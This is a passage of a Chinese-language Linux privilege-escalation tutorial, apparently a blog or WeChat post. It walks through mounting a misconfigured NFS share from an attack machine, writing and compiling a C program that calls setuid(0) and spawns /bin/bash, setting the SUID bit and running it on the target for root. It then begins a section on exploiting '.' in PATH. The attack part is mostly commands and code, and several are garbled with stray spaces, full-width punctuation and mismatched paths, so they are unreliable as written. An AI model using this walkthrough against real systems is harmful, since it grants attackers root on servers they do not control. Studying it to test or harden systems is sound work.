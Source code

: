 这里不多说了

我们接下来在我们的攻击机上安装客户端工具

需要执行以下命令，安装 nfs-common 软件包。apt 会自动安装 nfs-common、rpcbind 等 12 个软件包

sudo apt install nfs-commonapt-get install cifs-utils

**然后输入命令**

showmount -e [IP 地址]

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibQa6y3ibq2ATunV4ReRWUcuib6tf9UrtRoEiafoHKMNLTg83PHmT2t83rQ/640?wx_fmt=jpeg)

**创建目录以挂载远程系统。**

mkdir / tmp / test

**在 ****/tmp/test ****上装载**** Remote/tmp**** 文件夹：**

mount -o rw，vers = 2 [IP 地址]：/ tmp / tmp / test

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibMEW7XagiaJPfyGiadhUXpqic1EvbmjVzIG7y2keJtmuzU6tzxqu1v4JQg/640?wx_fmt=jpeg)

**然后在 / tmp/test / 中。新建一个 c 文件。**

```
#include <stdio.h>

#include <stdlib.h>

#include <sys/types.h>

#include <unistd.h> int main() { setuid(0); system("/bin/bash"); return 0; }

```

**也可以**

echo ‘int main() { setgid(0); setuid(0); system(“/bin/bash”); return 0; }’ > /tmp/test/suid-shell.c

**编译：**

gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel

**赋权：**

chmod + s /tmp/test/suid-shell.c

**好的，我们回到要提权的服务器上**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibw7nAKyicshwIpicghZgsCjgN1RX4k4xrythx4ckibuztEFq8VkSS8oZZQ/640?wx_fmt=jpeg)

cd / tmp./suid-shell

**可以看到是 ROOT 权限了**

**0x0011 linux 提权 - 利用 “.” 路径配置错误**
-----------------------------------

有 “.” 在 PATH 中表示用户可以从当前目录执行二进制文件 / 脚本。但是一些管理员为了避免每次都必须输入这两个额外的字符，他们在用户中添加“。” 在他们的 PATH 中。对于攻击者而言，这是提升其特权的绝佳方法。
